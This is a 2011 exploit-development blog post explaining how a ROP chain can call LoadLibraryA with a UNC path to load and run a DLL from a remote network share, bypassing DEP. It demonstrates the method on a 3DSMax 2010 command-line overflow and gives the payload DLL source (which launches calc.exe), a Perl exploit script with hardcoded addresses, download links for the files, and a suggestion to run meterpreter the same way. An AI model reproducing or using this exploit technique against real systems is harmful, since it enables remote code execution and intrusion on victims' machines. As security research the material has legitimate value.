

The unfairly forgotten API - using LoadLibrary with ROP
=======================================================

Original release date: 2011-07-22 03:47:46

ROP nowadays is a very popular method to bypass DEP. One can see lots of articles about VirtualProtect, HeapCreate, VirtualAlloc, etc. magic, but is seems, that people tend to forget about a very-very useful Windows API, LoadLibrary. It requires only one parameter, a pointer to a string, which is the path of the module to be loaded. The beauty of this is that the filename can be a UNC path, so the DLL can be loaded from a remote location. Another good thing is, that the DLL's entry point (DllMain, in most cases) is executed upon loading the image, so we don?t have to bother with jumping to the shellcode.

To sum it up: one can write the exploit in whatever high level language she wants (there is no sucking with bad characters, encoding, and stuff), load it from a remote location, and run it with only one API call which requires only one parameter. Moreover, LoadLibrary is imported in nearly all exes, so there is a great chance, that you'll find a call to it in a non ASLR-aware image.

Once I came up with the idea, I googled it, and there are some papers mentioning this stuff, but I think this method deserves more than just a couple of lines on a slide, so I wrote an exploit, and this paper.

One drawback I can think of is that you have to keep that DLL somewhere, and the victim machine has to be able to reach it. But besides that, I think it is pretty awesome to just load our payload as a DLL from somewhere on the network.

Anyways, just to see that it works, I'll show you a new 3DSMax 2010 exploit using this technique. The vuln in Max is pretty lame: if the given command line is long enough, EIP can be directly overwritten. One catch is that only a part of the command line is stored on the stack, so we have a very small buffer to put our shellcode in. At first I created a first stage payload which calls GetCommandLineA, and stores the entire command line which contains the second stage shellcode with the actual payload.

This worked indeed, but I wanted to bypass DEP. Started to think about it, and that's when the idea to use LoadLibrary came.

I created a DLL that executes the industry standard calc.exe in its DllMain. Here is the source code:

```
#include <shellapi.h>
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD   ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
	switch (ul_reason_for_call)
	{
	case DLL_PROCESS_ATTACH:
		ShellExecute(0, 0, L"calc.exe", 0 ,0, SW_SHOWNORMAL);
		break;
	case DLL_THREAD_ATTACH:
	case DLL_THREAD_DETACH:
	case DLL_PROCESS_DETACH:
		break;
	}
	return TRUE;
}
```

I built the DLL and copied it to a samba share (//pamparam/shared/test.dll).



OK, the payload is in its place, lets write the exploit itself! As I said earlier, this will only consist of creating the stack, and jump to LoadLibraryA. Here is the code:

```
$path = "c:\\\\FUZZTARGETS\\\\3dsmax2010\\\\3dsmax.exe";
$dllpath = "\\\\\\\\pamparam\\\\shared\\\\test.dll";
$padding = "A" x (258 - length($path) - length($dllpath));
#######################################################
# Address of LoadLibraryA function
$loadlibrary = "\\x7B\\x1D\\x80\\x7C";
######################################################
# Padding - this is where LoadLibraryA would return
$fakeret = "XXXX";
######################################################
# The address of the UNC path on the stack
$dllpathptr = "\\xA1\\xf0\\x12";
$argument = $dllpath . " " . $padding . $loadlibrary . $fakeret . $dllpathptr;
exec $path, $argument;
```

Running this code will start 3DSMax with a malicious command line that loads the DLL from our remote share, and starts the dreadful calculator :)

One more thing before I finish: practically all Windows APIs that work with file paths understand UNC paths, and this gives us the opportunity to have more fun. For example one can run a meterpreter exe from a remote share with only one call to WinExec.

You can download the exploit sources, this paper, and the test.dll here:

 - [This paper in english](files/loadlibrary_exploit_en.pdf)
 - [This paper in hungarian](files/loadlibrary_exploit_hu.pdf)
 - [The original exploit](files/3dsmax.pl)
 - [The LoadLibrary exploit](files/3dsmax_loadlibrary.pl)
 - [test.dll](files/test.dll)
 - [The source of the dll](files/dllmain.cpp)
